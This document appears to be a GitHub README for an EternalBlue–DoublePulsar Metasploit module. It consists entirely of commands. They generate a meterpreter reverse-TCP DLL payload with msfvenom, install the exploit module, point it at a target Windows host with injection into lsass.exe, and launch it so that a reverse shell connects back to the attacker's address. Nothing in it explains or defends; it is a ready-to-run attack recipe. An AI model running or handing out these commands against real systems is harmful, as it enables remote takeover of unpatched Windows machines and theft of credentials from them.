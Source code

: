 # Eternalblue-Doublepulsar-Metasploit
<pre>
wine cmd.exe
exit

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.12.110 lport=4444 -f dll -o /root/.wine/drive_c/eternal11.dll

cd /usr/share/metasploit-framework/modules/exploits/windows/smb
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit
mv Eternalblue-Doublepulsar-Metasploit/deps/ eternalblue_doublepulsar.rb ./

service postgresql start
msfconsole
reload_all

use exploit/windows/smb/eternalblue_doublepulsar
set DOUBLEPULSARPATH /usr/share/metasploit-framework/modules/exploits/windows/smb/deps
set ETERNALBLUEPATH /usr/share/metasploit-framework/modules/exploits/windows/smb/deps
set PROCESSINJECT lsass.exe
set TARGETARCHITECTURE  x64
set rhost 192.168.12.111
show targets
set target 8
set payload windows/x64/meterpreter/reverse_tcp
show options
set lhost 192.168.12.110

exploit
</pre>



